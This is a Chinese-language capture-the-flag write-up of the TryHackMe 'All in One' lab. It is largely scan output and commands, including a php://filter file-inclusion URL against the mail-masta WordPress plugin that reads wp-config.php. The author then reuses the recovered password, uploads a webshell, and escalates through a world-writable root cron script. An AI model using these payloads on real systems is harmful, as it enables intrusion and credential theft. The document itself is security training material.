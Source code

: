 ```yaml
---
sidebar_position: 42
tags: [Easy, Linux, 文件包含, 定时任务, lxd, SUDO, 密码重用]
title: "All in One"
description: "All in One"
sidebar_label: "All in One"
slug: /tryhackme/42
---
```

# All in One
## 端口扫描
```bash
root@ip-10-10-15-42:~/allinonemj# nmap -sT -p- --min-rate 1000 10.10.26.217

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-29 03:58 BST
Nmap scan report for ip-10-10-26-217.eu-west-1.compute.internal (10.10.26.217)
Host is up (0.00033s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:13:86:C1:B3:31 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.23 seconds
root@ip-10-10-15-42:~/allinonemj# nmap -sTCV -p 21,22,80 --min-rate 1000 10.10.26.217

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-29 03:58 BST
Nmap scan report for ip-10-10-26-217.eu-west-1.compute.internal (10.10.26.217)
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:13:86:C1:B3:31 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.46 seconds
```
## FTP - 21
使用你们身份登陆 FTP 服务, 我发现这只是一个目录什么也没有, 并且也没有上传文件的权限, 那这基本没有用了

![20240628224231](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224231.png)

## HTTP - 80
进行目录扫描, 我发现存在一个 wordpress 页面
```bash
root@ip-10-10-15-42:~/allinonemj# gobuster dir -u http://10.10.26.217/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.217/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/08/29 04:00:08 Starting gobuster
===============================================================
/index.html (Status: 200)
/wordpress (Status: 301)
/hackathons (Status: 200)
```
访问 wordpress 页面, 使用 wpscan 进行扫描发现一个可以利用的漏洞

![20240628224336](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224336.png)

在官网也给出了对应的检测方法

![20240628224355](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224355.png)

![20240628224403](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224403.png)

使用 PHP 伪协议进行读取

```bash
http://10.10.26.217/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

解密后我们可以得到关于数据库的用户和密码

```bash
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );
```

同时我记得在该站点有一个用户是 elyana 因此我将此密码用于登陆发现可以,接着就是上传 WebShell

## 后渗透
### www-data
访问上传的 WebShell, 来获取 Shell

![20240628224446](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224446.png)

### www-data --> root
查看 `/etc/crontab` 我发现有一个 root 的定时任务

```bash
(remote) elyana@elyana:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /var/backups/script.sh

(remote) elyana@elyana:/tmp$ ls -al /var/backups/script.sh
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh
```
### 利用 elyana 用户
访问用户 elyana 家目录我发现一段提示

![20240628224617](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224617.png)

因此我开始搜寻属于用户 elyana 的文件

![20240628224629](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224629.png)

```bash
(remote) www-data@elyana:/tmp$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
```
使用上面的密码进行登陆, 发现可以登陆, 并且发现用户具有 sudo 特权以及是 lxd 组用户

![20240628224647](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240628224647.png)

因此这里有两个提权方式:
- lxd 容器提权
- sudo 特权进行提权